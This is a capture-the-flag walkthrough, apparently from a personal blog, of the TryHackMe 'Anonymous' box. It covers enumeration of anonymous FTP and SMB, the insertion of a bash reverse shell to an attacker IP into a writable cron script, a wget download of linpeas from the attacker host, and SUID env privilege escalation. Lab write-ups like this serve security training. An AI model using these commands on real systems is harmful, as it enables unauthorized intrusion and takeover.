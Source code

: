 ```yaml
---
layout: post
title: " Anonymous - TryHackMe"
date: 2020-07-13
excerpt: "Walkthrough for Anonymous on TryHackme"
tags: [Anonymous, TryHackMe, privilege escalation, script modification]
comments: false
---
```


Anonymous is a medium difficulty box on [TryHackMe](https://www.tryhackme.com). Below is a walkthrough of the steps involved to achieve root on this box.

First, let's scan the box with nmap with **nmap -sC -sV -T4 [machine ip]**. The results of this scan are as shown below.

![Anonymous nmap](/assets/img/Anonymous1.png)

It appears that we have ftp (21) open with anonymous access allowed, ssh (22), and smb (139/445) open. 

This are a total of 4 open ports, the answer to **Question 1**. FTP is running on port 21, the answer to **Question 2**. Ports 139/445 are running smb, the answer to **Question 3**. 

Since we can see that ftp is open anonymously, let's login and take a look with **ftp [machine ip]**. When prompted for the username/password, use **anonymous** for both of them. Once logged in, we can run **ls** to list the directory contents.

![Anonymous ftp connect](/assets/img/Anonymous2.png)

Let's use **cd scripts** to get into the script directory and then type **ls** to list it's contents. Three files are present. Let's run **mget \*** to download these files to view them locally.

![Anonymous ftp scripts directory](/assets/img/Anonymous3.png)

Let's use **bye** to close the ftp session and then take a look at these files. Let's start with **cat clean.sh**. This appears to be a script that removes everything in the /tmp directory and then logs it to **/var/ftp/scripts/removed_files.log**.

![Anonymous cat clean.sh](/assets/img/Anonymous4.png)

Next, let's take a look at removed_files.log with **cat removed_files.log**. It doesn't appear that there's anything useful in this, as it is the same log entry repeated several times.

![Anonymous cat removed_files.log](/assets/img/Anonymous5.png)

The last file, which is viewed with **cat to_do.txt**, states that anonymous logins should be disabled because they aren't safe.

![Anonymous cat to_do.txt](/assets/img/Anonymous6.png)

This is likely a hint that anonymous access is available in multiple places. Let's try to enumerate the smb shares next with **smbclient -L \\\\\\\\[machine ip]\\\\ **. This will return 3 shares as shown above.

![Anonymous list smb shares smbclient](/assets/img/Anonymous7.png)

The smb share **pics** is the answer to Question 4. Let's try to connect to pics anonymously with **smbclient \\\\\\\\[machine ip]\\\\pics -U ""**. We are also able to connect anonymously and after running **ls**, we see that there are 2 pictures in this folder. Let's grab them both with **mget \***.

![Anonymous smbclient anonymous](/assets/img/Anonymous8.png)

Let's take a look at these two pictures. There's nothing suspicious on the pictures themselves, as they are just pictures of corgis. However, .jpg/.jpeg files can be used for steganography. Let's see if there's any hidden files inside. I ran stegcracker for a few minutes on both of these pictures and was not able to crack the password or confirm anything was hidden inside.

Let's go back to enumeration using rpcclient. Let's run **rpcclient [machine ip] -U ""**. Once connected, let's run **enumdomusers** to get the users on this victim host (namelessone) followed by **queryuser 0x3eb** and **getdompwinfo**.

![Anonymous rpcclient](/assets/img/Anonymous9.png)

While useful info, unless we wanted to spend a long time brute forcing the password, there had to be a simpler way to get in. At this point, I logged back in anonymously to the ftp server and noticed that we have read/write/execute on **clean.sh**. I wonder what would happen if we put in a reverse shell to run inside that script? On our local machine, let's open the **clean.sh** file that we downloaded earlier and modify it before we reupload it. Let's add in **bash -i >& /dev/tcp/[your attacker ip]/8080 0>&1** and save the file.

![Anonymous modify clean.sh](/assets/img/Anonymous10.png)

Next, in another terminal window on our attacker pc, run **nc -nvlp 8080** to open a listener on port 8080 that you specified in the clean.sh file above.

![Anonymous nc listener](/assets/img/Anonymous11.png)

Next, let's reconnect with the anonymous ftp site, go into the scripts directory and upload our modified clean.sh file.

![Anonymous clean.sh upload](/assets/img/Anonymous12.png)

Now, we just wait for a connection, as that script appeared to be ran as a cron job. Within a couple of minutes, we now have a shell.

![Anonymous reverse shell](/assets/img/Anonymous13.png)

We are running as namelessone, and after running **pwd** we can see we are in that user's home directory. We can run **ls** and we will see the user.txt file in this directory. **cat user.txt** will get you the answer to **Question 5**.

![Anonymous user.txt](/assets/img/Anonymous14.png)

Let's upgrade our shell so we can run some other commands that require a TTY. Let's upgrade with **python -c 'import pty; pty.spawn("/bin/sh")'**. Attempting to run **sudo -l** requires a password, which we do not have for the user we currently have access to. Let's copy linpeas over to do some enumeration.

First, on our attacker pc, run **python3 -m http.server** in the directory that linepeas.sh is in. Next, on the victim, run **wget http://[attacker ip]:8000/linpeas.sh**, and it should save in namelessone's home directory. Next, run **chmod 777 linpeas.sh** to make the script executable.

![Anonymous wget linpeas.sh](/assets/img/Anonymous15.png)

Now lets run this with **./linpeas.sh**. While this puts out a lot of information, there is a SUID file that it notices, **/usr/bin/env**.

![Anonymous SUID](/assets/img/Anonymous16.png)

[GTFOBins](https://gtfobins.github.io/) is a great site to look up ways to exploit executables in Linux. env can be used for privilege escalation with **./env /bin/sh -p**. Now, if we run **whoami** we are the root user! We can now run **cd /root** followed by **ls**. root.txt is in this file, so let's run **cat root.txt** to get the root flag.

![Anonymous root.txt](/assets/img/Anonymous17.png)
